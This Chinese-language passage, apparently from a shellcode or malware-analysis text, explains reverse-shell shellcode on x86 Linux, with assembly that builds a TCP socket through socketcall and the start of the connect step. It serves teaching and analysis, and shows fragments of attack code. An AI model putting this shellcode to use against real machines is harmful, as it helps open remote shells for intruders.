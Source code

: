 ```
syscall
```

如你所见，在 shellcode 方面，x86 和 x64 之间并没有太大区别。现在，让我们看看更高级的 shellcode 类型。

### 反向 shell shellcode

反向 shell shellcode 是最广泛使用的 shellcode 类型之一。这个 shellcode 会连接到攻击者，并在远程系统上为攻击者提供一个 shell，以便完全访问远程机器。为实现这一目标，shellcode 需要按照以下步骤执行：

1.  `socket`。这是该函数的定义：

    ```
    int socket(int domain, int type, int protocol);
    ```

你通常会看到它这样使用：

```
socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
```

在这里，`AF_INET` 代表大多数已知的互联网协议，包括 `IPPROTO_IP`（即 IP 协议）。`SOCK_STREAM` 用于表示 TCP 通信。从这个系统调用中，你可以理解这个 shellcode 正通过 TCP 与攻击者进行通信。汇编代码如下所示：

```
xor edx, edx  ; cleanup edx
push edx      ; protocol=IPPROTO_IP (0x0)
push 0x1      ; socket_type=SOCK_STREAM (0x1) 
push 0x2      ; socket_family=AF_INET (0x2)
mov ecx, esp  ; pointer to socket() args
xor ebx, ebx
mov bl, 0x1   ; SYS_SOCKET
xor eax,eax
mov al, 0x66  ; socketcall syscall ID
int 0x80
xchg edx, eax ; edx=sockfd (the returned socket)
```

在这里，shellcode 使用了 `socketcall` 系统调用（ID 为 0x66）。该系统调用表示多个系统调用，包括 `socket`、`connect`、`listen`、`bind` 等。在 `ebx` 中，shellcode 设置要从 `socketcall` 列表中执行的函数。以下是 `socketcall` 支持的函数列表的一个片段：

```
SYS_SOCKET 1
SYS_BIND 2
SYS_CONNECT 3
SYS_LISTEN 4
SYS_ACCEPT 5
```

shellcode 将参数压入栈中，然后将 `ecx` 设置为指向参数列表，将 `ebx = 1`（即 `SYS_SOCKET`），将系统调用 ID 设置到 `eax`（即 `socketcall`），接着执行系统调用。

1.  `sockaddr_in` 包含 IP、端口，并且再次使用 `AF_INET`。接着，shellcode 执行 `socketcall` 函数列表中的 `connect` 函数。其原型如下所示：

    ```
    int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
    ```
